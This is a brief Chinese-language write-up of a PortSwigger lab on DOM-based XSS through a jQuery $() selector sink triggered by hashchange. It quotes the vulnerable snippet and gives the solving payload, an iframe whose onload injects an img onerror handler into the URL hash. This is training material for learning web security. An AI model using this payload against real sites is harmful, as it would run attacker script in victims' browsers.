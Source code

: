 # Lab: DOM XSS in jQuery selector sink using a hashchange event

This lab contains a DOM-based cross-site scripting vulnerability on the home page. It uses jQuery's $() selector function to auto-scroll to a given post, whose title is passed via the location.hash property.

To solve the lab, deliver an exploit to the victim that calls the print() function in their browser.

## Cross Site Scripting 
* 可以看到 `script` 標籤裡面
```js
$(window).on('hashchange', function(){
    var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
    if (post) post.get(0).scrollIntoView();
});
```
* 稍微分析一下可以知道說他會拿網址後面 `#` 後面的內容，所以說用 iframe 的方式可以執行到相應的 js
* 在 banner 有一個 exploit server 點進去之後可以改他的 body
```
<iframe src="https://ac2c1ffa1fe2bbdec0da0cda007d0078.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
* 之後存起來，送給目標就可以過關了